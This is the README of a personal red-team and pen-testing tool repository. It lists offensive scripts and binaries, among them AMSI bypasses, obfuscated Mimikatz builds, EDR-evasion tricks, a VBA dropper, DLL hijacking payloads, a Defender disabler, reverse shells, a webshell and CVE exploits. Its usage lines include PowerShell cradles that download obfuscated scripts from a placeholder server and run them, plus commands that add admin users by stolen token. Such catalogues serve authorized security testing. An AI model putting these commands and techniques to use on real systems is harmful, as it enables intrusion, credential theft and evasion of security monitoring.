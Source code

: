 # Red Team Arsenal

Scripts and binaries that I usually use in red team and regular pen tests. 

Most of the stuff here is far from fancy or the best solution possible, sorry :(... they just do the job and might come in handy for you in some way.

---

* addbyimpersonation.cpp: A modified version of sensepost's [impersonate](https://github.com/sensepost/impersonate) to only impersonate a token and add a new local admin/domain admin user to a computer/domain.
	*  `.\addbyimpersonation.exe list` to list tokens.
	*  `.\addbyimpersonation.exe adduser <token_ID> <username> <password> <server>` to add a new user impersonating the \<token_ID>. If \<server> is a DC, it will add a new domain user. If \<server> is a regular domain computer, it will add a new local user (SAM).
	*  `.\addbyimpersonation.exe addtodomaingroup <token_ID> <username> <domain_group> <server>` to add an existing domain user to a domain group.
	*  `.\addbyimpersonation.exe addtolocalgroup <token_ID> <username> <local_group> <server>` to add an existing local user/domain user to a local group (e.g. builtin "Administrators" group).
* GetNPUsers.exe: GetNPUsers.py from impacket compiled to .exe via pyinstaller.
* b_python.exe: BloodHound.py project compiled to .exe via cx\_Freeze. You may want to run this with `--disable-pooling` flag.
	* `.\b_python.exe -u <username> -p <pass> -d <domain> -dc <dc_fqdn> -gc <dc_fqdn> -ns <dc_ip> -c all --disable-pooling` 
* generate\_malicious\_lnk.ps1: Malicious .lnk generator (with wordpad.exe icon).
* CreateSymlink.exe: Precompiled "CreateSymlink.exe" from James Forshaw's
* html\_smuggling\_loader.html: A HTML smuggling template.
* hook\_detector.cs: EDR Hooks Detector in C#. Modify the code to include other win32 APIs.
* find\_cpassword\_sysvol.ps1: A simple ps1 script to search for "cpassword" references in SYSVOL folder.
* find\_pwd\_shared\_folder.ps1: A simple ps1 script to search for password/juicy references in a given shared folder. Modify `$ComputerName`, `$DomainName` and `$SharedFolder` variables accordingly.
* crackmapexec.exe: CrackMapExec compiled to .exe.
* crackmapexec_t.exe: CrackMapExec compiled to .exe with reduced entropy to bypass some specific EDRs (~~CS Falcon~~).
* AMSI\_bypass\_cross\_project.cpp: Patch AMSI in a given PID (C++). 
	* `.\AMSI_bypass_cross_project.exe <PID>`
* amsi\_patching\_go.go: Patch AMSI in a given PID (go). 
	* `.\amsi_patching_go.exe <PID>`
* amsipythonbypass.zip: AMSI patching implemented in Python. Extracted from FluidAttacks [post](https://fluidattacks.com/blog/amsi-bypass-python/).
* add\_user\_dll.cpp / adduser.dll: DLL that adds a new local admin user when loaded. Dynamically look up for local Administrators group name and add the user using windows APIs to avoid using net.exe/net1.exe.
* add\_user\_dll2.cpp: DLL that adds a new local admin user when loaded (via system(net.exe...) method).
* Invoke-Mimikatz.ps1: Powershell mimikatz with some minor bug fixes.
* SpoolSample.exe: SpoolSample precompiled binary (printerbug).
* bin\_to\_uuids.py: .bin to uuids converter, useful for UUID injection.
	* `python3 bin_to_uuids.py payload.bin`
* aes\_sektor7.py: AES256 encryption script extracted from Sektor7. Modified this to also save an `encrypted.bin` file that later may be imported as .rsrc in a maldev template. 
	* `python3 aes_sektor7.py payload.bin`, it will generate a encrypted.bin on /tmp.
* decrypt_aes.cpp: AESdecrypt sample.
* SharpPrintNightmare.exe: SharpPrintNightmare precompiled binary.
* obf-sharphound.ps1: SharpHound.ps1 obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-sharphound.ps1"); undertow -GdHcDvjN99 all`
* obf-pnightmare.ps1: PrintNightmare obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-pnightmare.ps1"); essentially -Dll "C:\Users\public\Desktop\adduser.dll"`
* obf-pup.ps1: Powerup obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-pup.ps1"); pave`
* rpivot.exe: rpivot.py compiled to .exe through cx\_freeze. Useful to establish SOCKS proxy communication in legacy powershell versions (e.g. v2).
	* `.\rpivot.exe --server-ip <IP> --server-port <PORT>`
	*  On remote server: `python3 server.py --server-IP <IP> --server-port <PORT> --proxy-ip 127.0.0.1 --proxy-port 1080`
* ch.exe: chisel.exe + limelighter project.
* netman\_sth.exe / netman\_sth\_x86.exe: A more stealth NetMan service trigger. Used to exploit a well known DLL hijacking when we have a writeable %PATH% directory in Windows Servers ([reference](https://itm4n.github.io/windows-server-netman-dll-hijacking/)). 
* WSuspicious.exe: WSUSpicious precompiled binary.
* Rubeus\_encrypted.exe: Rubeus encrypted by nimcrypt2.
* Rubeus.xml: Rubeus.xml to be executed with msbuild.exe.
* SharpKatz.xml: SharpKatz.xml to be executed with msbuild.exe.
* SharpPrintNightmare.exe: Precompiled SharpPrintNightmare.
* c.exe: Certify.exe + InvisibilityCloak obfuscation.
* dictionary.txt: Just a english dictionary to be appended on binaries to reduce entropy.
	* `cat dictionary.txt >> t.exe`
	* Check compressibility: `gzip -v -c t.exe > /dev/null`
* only\_sam\_dump.exe / only\_sam\_dump.py: Python script (compiled to .exe) to dump SAM/SYSTEM hives only. Based on secretsdump script. Created just to evade some EDR products.
* secretsdump.exe: secretsdump compiled to .exe via cx\_freeze.
* smbmap.exe: smbmap project compiled to .exe.
* weblogic\_pw\_decryptor.py: A decryptor to weblogic passwords contained in config.xml
* keytabextract.py: Python script to extract NTLM Hashes from KeyTab files
	* `./keytabextract.py <keytabfile>`
* mimi\_peruns\_fart.exe: A more stealth mimikatz.exe (donut + payload encryption + peruns fart applied)
* m\_obf2.exe: Mimikatz + Inceptor project
* mimikatz-nimcrypt2.exe: Mimikatz.exe encrypted with nimcrypt2 project
* dropper.vba: A simple VBA dropper. C# code extracted from .DOCX/.XLSX "comments" section (`ActiveDocument.BuiltInDocumentProperties("Comments").Value`)
* xor.cs: A XOR template in C#.
* CVE-2020-14882.py: Python script to exploit CVE-2020-14882.
* dwrite.dll: DLL used to exploit a DLL sideloading on Microsoft Teams (Microsoft Teams searches for this non-existent DLL on its startup).
* windows\_license.vbs: VBS to extract windows licenses... old content.
* disable-defender.ps1: A ps1 script to disable Windows Defender.
* dllinj.go: Process injection implemented in golang.
* screenshot.ps1: A ps1 script to take a desktop screenshot. Modify the `$File` variable to specify the location for saving the .bmp image.
* bleedhound.zip: An obfuscated version of BloodHound project.
* merge\_nessus\_files.py: Python script to merge multiple .nessus files.
* modshadowpass.sh: Useful to modify passwords when we have write privileges to /etc/shadow (this is NOT opsec-friendly :)
* reverse\_shell.py: A simple revshell in py... old content, you may want to use https://www.revshells.com/.
* reverse\_shell.sh: A simple revshell in sh... old content, you may want to use https://www.revshells.com/.
* systracing_cve-2020-0668.txt: Steps to reproduce CVE-2020-0668.
* webshell.aspx: ASP.NET webshell. A defined "AUTHKEY" is required to interact with it (line 8).

